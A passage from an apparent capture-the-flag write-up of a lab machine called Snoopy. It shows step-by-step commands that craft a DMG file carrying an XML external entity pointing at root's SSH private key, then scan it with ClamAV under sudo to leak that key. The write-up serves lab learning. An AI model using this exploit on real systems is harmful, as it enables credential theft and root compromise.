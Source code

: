 The first step is to generate an ISO image. There’s one in `/exploit`, but I’ll delete it for the sake of demo:

```
root@39e742dc1260:/exploit# rm test.img
root@39e742dc1260:/exploit# genisoimage -D -V "exploit" -no-pad -r -apple -file-mode 0777 -o test.img .
genisoimage: Warning: no Apple/Unix files will be decoded/mapped
Total translation table size: 0
Total rockridge attributes bytes: 6878
Total directory bytes: 36864
Path table size(bytes): 240
Max brk space used 1b000
181 extents written (0 MB)

```

Next I’ll turn that into a DMG:

```
root@39e742dc1260:/exploit# dmg dmg test.img test.dmg
Processing DDM...
No DDM! Just doing one huge blkx then...
run 0: sectors=512, left=724
run 1: sectors=212, left=212
Writing XML data...
Generating UDIF metadata...
Master checksum: ffac019f
Writing out UDIF resource file...
Cleaning up...
Done

```

Finally, I’ll use `bbe` (the [binary block editor](https://linux.die.net/man/1/bbe)) to edit in the XXE, modifying the command from GitHub to read root’s ssh key instead of `/etc/passwd`:

```
root@39e742dc1260:/exploit# bbe -e 's|<!DOCTYPE plist PUBLIC "-//Apple Computer//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">|<!DOCTYPE plist [<!ENTITY xxe SYSTEM "/root/.ssh/id_rsa"> ]>|' -e 's/blkx/&xxe\;/' test.dmg -o exploit.dmg

```

I’ll exit the container and (because I was working out of the mapped directory), `exploit.dmg` is there. I’ll `scp` it to Snoopy:

```
oxdf@hacky$ scp -i ~/keys/ed25519_gen exploit.dmg sbrown@snoopy.htb:/home/sbrown/scanfiles
exploit.dmg                                                            100%  217KB 464.4KB/s   00:00

```

And scan it as root:

```
sbrown@snoopy:~$ sudo clamscan --debug /home/sbrown/scanfiles/exploit.dmg
LibClamAV debug: searching for unrar, user-searchpath: /usr/local/lib
LibClamAV debug: unrar support loaded from /usr/local/lib/libclamunrar_iface.so.11.0.0
LibClamAV debug: Initialized 1.0.0 engine
LibClamAV debug: Initializing phishcheck module
...[snip]...
LibClamAV debug: Descriptor[3]: Continuing after file scan resulted with: No viruses detected
LibClamAV debug: in cli_scanscript()
LibClamAV debug: matcher_run: performing regex matching on full map: 0+3329(3329) >= 3329
LibClamAV debug: matcher_run: performing regex matching on full map: 0+3329(3329) >= 3329
LibClamAV debug: hashtab: Freeing hashset, elements: 0, capacity: 0
LibClamAV debug: hashtab: Freeing hashset, elements: 0, capacity: 0
```